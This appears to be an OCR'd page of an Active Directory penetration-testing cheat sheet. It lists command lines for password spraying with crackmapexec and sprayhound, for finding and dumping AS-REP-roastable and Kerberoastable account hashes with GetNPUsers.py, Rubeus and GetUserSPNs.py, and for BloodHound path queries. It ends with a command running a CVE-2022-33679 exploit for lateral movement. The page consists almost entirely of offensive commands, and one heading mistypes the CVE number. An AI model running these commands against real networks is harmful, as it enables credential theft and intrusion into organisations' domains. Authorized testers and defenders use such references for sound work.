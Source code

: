 ### Password Spraying
- Tools
- Check password policy
```
cme <IP> -u 'user' -p 'password' --pass-pol
```
- Enumerate users with credentials
```
enum4linux -u 'username' -p 'password' -P <IP>
```
- Powershell Commands
```
Get-ADDefaultDomainPasswordPolicy Get-ADFineGrainedPasswordPolicy -filter * Get-ADUserResultantPasswordPolicy -Identity <USER>
```
- LDAP Search 
```
ldapsearch-ad.py --server '<DC>' -d <DOMAIN> -u <USER> -p <PASSWPRD> --type pass-pols
```
- More tools
- Test username=password
```
cme smb <DC_IP> -u user.txt -p password.txt --no-bruteforce
```
- Multiple tests, mindful of lockout policies
```
cme smb <DC_IP> -u user.txt -p password.txt
```
- Sprayhound
```
sprayhound -U users.txt -d <DOMAIN> --dc <DC_IP>
```
### ASEREPRoast
- Objective 
	- Identify ASREPRoastable users (accounts that do not require pre-authentication)
- Commands
```
Get-DomainUser -PreauthNotRequired -Properties SamAccountName
```
- Graph Analysis (e.g. with BloodHound)
```
MATCH (u:User {dontreqpreauth:true}), (c:Computer) RETURN p=shortestPath((u)-[*1..]->(c))
```
### Hash Extraction for ASREP
- GetNPUsers.py
```
python GetNPUsers.py <DOMAIN>/ -usersfile <USERNAMES.TXT> -format hashcat -outputfile <HASHES.DOMAIN.TXT>
```
- Rubeus.exe
```
Rubeus.exe asreproast /format:hashcat
```
### Blind Kerberoasting
- Objective is to extract TGS (Ticket Granting Service) hashes
- Rubeus.exe
```
Rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC_IP> /nowrap:<OUTPUT.TXT>
```
- Alternative Command
```
GetUserSPNs.py -no-preauth "asrep_users" -usersfile <USERLIST.TXT> -dc-host <DC_IP> -k <DOMAIN>
```
### CVE-2022033679 Exploit
- Successfull exploitation results in lateral movement via Pass the ticket
```
python3 cve-2022-33679.py <DOMAIN>/<USER> <TARGET>
```




